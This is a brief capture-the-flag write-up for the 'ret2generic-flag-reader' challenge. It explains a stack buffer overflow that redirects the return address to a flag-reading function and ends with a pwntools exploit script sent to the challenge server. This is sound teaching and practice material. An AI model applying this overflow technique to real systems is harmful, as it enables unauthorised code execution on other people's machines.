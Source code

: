 #### Description

i'll ace this board meeting with my new original challenge!

#### Solution

This is the source code:  
![Alt text](./img/ret2generic-flag-reader.PNG?raw=true "Title")  
as you can see there is also now a buffer overflow but now we must change the saved return address with the address of the function that allows us to read the flag, so `void super_generic_flag_reading_function_please_ret_to_me()`.  
First of all we need to find the address of that function and to do that we can use gdb and disassamble our binary.  
The address we are looking for is `0x4011f6` while the padding for buffer overflow exploitation is 32+8.  
This is the script I use to solve the challenge:

```
from pwn import *

r = remote ('mc.ax', 31077)

address = 0x4011f6
shellcode = b"\x41"*40 + p64(address)
r.sendline(shellcode)
r.interactive()
```
